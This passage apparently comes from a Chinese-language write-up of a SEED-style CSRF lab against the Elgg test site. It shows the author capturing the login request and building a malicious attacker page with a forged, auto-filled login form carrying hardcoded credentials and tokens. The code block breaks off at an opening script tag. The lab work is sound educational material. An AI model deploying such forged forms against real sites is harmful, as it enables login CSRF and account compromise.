 以 Alice 身份登录并抓取登录表单信息，观察到使用 URL 为 /action/login ，

同时需要包含用户名和密码信息，如下图：

![image-20240703184801277](img/image-20240703184801277.png)

去/var/www/CSRF/Attacker 写进index.html，编写恶意网站内容如下：

```
<form method="post" action="http://www.csrflabelgg.com/action/login" class="elgg-form elgg-form-login">
	<fieldset>
		<input name="__elgg_token" value="3b7ba29a4a8fa5fb568389c21edf0fca" type="hidden">
		<input name="__elgg_ts" value="1527493857" type="hidden">
		<div>
			<label>Username or email</label>
			<input value="samy" name="username" class="elgg-input-text elgg-autofocus" type="text">
		</div>
		<div>
			<label>Password</label>
			<input value="seedsamy" name="password" class="elgg-input-password" type="password">
		</div>
		<div class="elgg-foot">
			<label class="mtm float-alt">
				<input name="persistent" value="true" type="checkbox">
				Remember me
			</label>
			<input value="Log in" class="elgg-button elgg-button-submit" type="submit">
			<ul class="elgg-menu elgg-menu-general mtm">
				<li><a class="registration_link" href="http://www.csrflabelgg.com/register">Register</a></li>
				<li><a class="forgot_link" href="http://www.csrflabelgg.com/forgotpassword">Lost password</a></li>
			</ul>
		</div>
	</fieldset>
</form>
<script>
```